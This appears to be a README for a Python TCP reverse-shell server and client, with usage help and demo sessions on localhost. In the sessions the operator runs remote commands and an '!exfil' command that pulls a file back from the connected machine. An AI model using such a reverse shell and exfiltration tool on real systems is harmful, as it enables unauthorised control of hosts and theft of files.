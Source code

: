# pyclisrv
usage: tcpsrv.py [-h] [-v] ip port

positional arguments:
  ip             The IP address to listen on.
  port           The TCP port to listen on.

optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose  Increase verbosity of output.





root@w530-gnome# ./tcpsrv.py localhost 8080 -v


    TCP Reverse Shell - Server
    [Version 0.0.102804] 
    @a7kemc73


[-] Listening for connection on: localhost:8080
[+] Connection received from: 127.0.0.1:55866
127.0.0.1>> ls -al
total 32
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:52 .
drwxrwx--- 1 root vboxsf     0 Oct 26 22:13 ..
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:53 .git
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:54 lib
-rwxrwx--- 1 root vboxsf 15028 Oct 28 18:14 README.md
-rwxrwx--- 1 root vboxsf  1934 Oct 28 19:51 tcpcli.py
-rwxrwx--- 1 root vboxsf  2268 Oct 28 19:44 tcpsrv.py

127.0.0.1>> !exfil README.md
[-] Writing exfil file README.md.exfil !!!!!!!!!!!!!!!
[+] Exfil complete
127.0.0.1>> ls -al
total 47
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:55 .
drwxrwx--- 1 root vboxsf     0 Oct 26 22:13 ..
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:53 .git
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:54 lib
-rwxrwx--- 1 root vboxsf 15028 Oct 28 18:14 README.md
-rwxrwx--- 1 root vboxsf 15028 Oct 28 19:55 README.md.exfil
-rwxrwx--- 1 root vboxsf  1934 Oct 28 19:51 tcpcli.py
-rwxrwx--- 1 root vboxsf  2268 Oct 28 19:44 tcpsrv.py

127.0.0.1>> rm README.md.exfil

127.0.0.1>> ls -al
total 32
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:55 .
drwxrwx--- 1 root vboxsf     0 Oct 26 22:13 ..
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:53 .git
drwxrwx--- 1 root vboxsf  4096 Oct 28 19:54 lib
-rwxrwx--- 1 root vboxsf 15028 Oct 28 18:14 README.md
-rwxrwx--- 1 root vboxsf  1934 Oct 28 19:51 tcpcli.py
-rwxrwx--- 1 root vboxsf  2268 Oct 28 19:44 tcpsrv.py

127.0.0.1>> !quit
root@w530-gnome# 





root@w530-gnome# ./tcpcli.py localhost 8080 -v


    TCP Reverse Shell - Client
    [Version 0.0.102804] 
    @a7kemc73


[-] Trying connection to: localhost:8080
[+] Connected to: localhost:8080
[-] Transferring file README.md !!!!!!!!!!!!!!!!
[+] Transfer Complete.
root@w530-gnome# 
